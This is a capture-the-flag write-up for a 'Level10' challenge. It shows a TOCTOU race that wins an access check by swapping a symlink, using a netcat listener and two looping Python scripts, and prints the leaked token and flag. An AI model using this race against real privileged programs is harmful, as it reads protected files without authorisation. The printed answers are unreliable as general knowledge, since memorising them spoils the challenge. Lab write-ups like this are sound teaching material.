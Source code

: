 # Level10

In Level10, you are provided with an executable named `level10` and a `token` file that you cannot read initially. When you run the `level10` executable, it displays a usage message indicating that you should provide a file and a host:


./level10 file host
        sends file to host if you have access to it


You attempt to use the executable by creating a file `/tmp/myfile` and running the command:


./level10 /tmp/myfile 127.0.0.1


This command is an attempt to send your file to your own IP address, but you receive the following error message:


Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1


The executable appears to be sending the contents of the specified file to port `6969`.

To exploit the program, you set up a `netcat` listener to capture incoming connections and data. In a separate terminal, you run:


nc -lk localhost 6969


With the listener in place, running `./level10 /tmp/myfile 127.0.0.1` allows you to send the contents of `/tmp/myfile` to the listener.

## The exploit

Further examination of the `level10` executable using `ltrace` reveals important information: it first checks if you have the rights to open the file and then proceeds to open it. This behavior can be exploited using a TOCTOU (Time Of Check, Time Of Use) attack.

The idea behind the TOCTOU attack is to gain permission for file access and then quickly change the file to something else before it's opened. To achieve this, you can use a symbolic link named `/tmp/link` that alternates between pointing to `/tmp/myfile` and `./token`.

You create two Python scripts for this exploit:

1. A script to continuously run the `level10` executable, sending the contents of `/tmp/link` to the listener:


import os

while True:
    os.system('./level10 /tmp/link 127.0.0.1')


2. A script to change the target of `/tmp/link` alternately between `/tmp/myfile` and `./token`:


import os

while True:
    os.system('ln -sf /tmp/myfile /tmp/link')
    os.system('ln -sf /home/user/level10/token /tmp/link')


With both scripts running in separate terminals, you exploit the executable. The continuous switching of the `/tmp/link` symbolic link's target fools the program into sending the contents of `./token` to the listener before it can be switched back to `/tmp/myfile`.

Within milliseconds, the `nc` listener displays the desired content:


woupa2yuojeeaaed06riuj63c


## The flag

You use this content as the password to switch to the `flag10` user:


su flag10


After successfully switching to the `flag10` user, you run the `getflag` command to retrieve the Level10 flag:


getflag


This displays the Level10 flag:


feulo4b72j7edeahuete3no7c
